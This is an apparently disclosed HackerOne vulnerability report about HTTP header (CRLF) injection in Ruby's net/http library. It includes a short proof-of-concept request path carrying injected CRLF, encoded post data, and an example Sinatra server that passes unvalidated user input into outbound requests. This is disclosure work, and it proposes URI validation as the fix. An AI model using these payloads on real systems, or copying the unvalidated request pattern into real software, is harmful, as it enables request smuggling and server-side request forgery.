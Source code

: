# Ruby:HTTP Header injection in 'net/http'

## Report Details
- **Report ID**: 146416
- **URL**: https://hackerone.com/reports/146416
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-06-22T08:46:41.429Z
- **Disclosed**: 2017-02-27T02:02:52.833Z

## Reporter
- **Username**: rootredrain
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
Hi,

I would like to report a HTTP Header injection vulnerability in 'net/http' that allows attackers to inject arbitrary headers in request even create a new evil request.

###PoC

```
require 'net/http'
http = Net::HTTP.new('192.168.30.214','80')
res = http.get("/r.php HTTP/1.1\r\nx-injection: memeda")

```
{F100919}

###Example
Server Code:
```
#!/usr/bin/env ruby
require 'sinatra'
require 'uri'
require 'net/http'

get '/' do
  'hello world'
end

post '/' do
  ip = params[:ip]
  port = params[:port]
  path = params[:path]

  # do what you want
  http = Net::HTTP.new ip, port.to_i
  res = http.get path

  res.body

end
```
post data:

```
ip=192.168.30.214&port=80&path=/r.php%20HTTP/1.1%0d%0ax-injection: memeda
```

print_r all HTTP Headers：

{F100918}


###Create an evil request

post data:

{F100920}

server log:
{F100921}


###Suggestion:

Should validate URI legality before send request

btw，

Cloud I have a CVEID with this vulnerability? reported by @redrain(rootredrain@gmail.com) and @ztz(ztz5651483@gmail.com) 

## Attachments
- 123123.png
- 222333.png
- 4444.png
- 5555.png
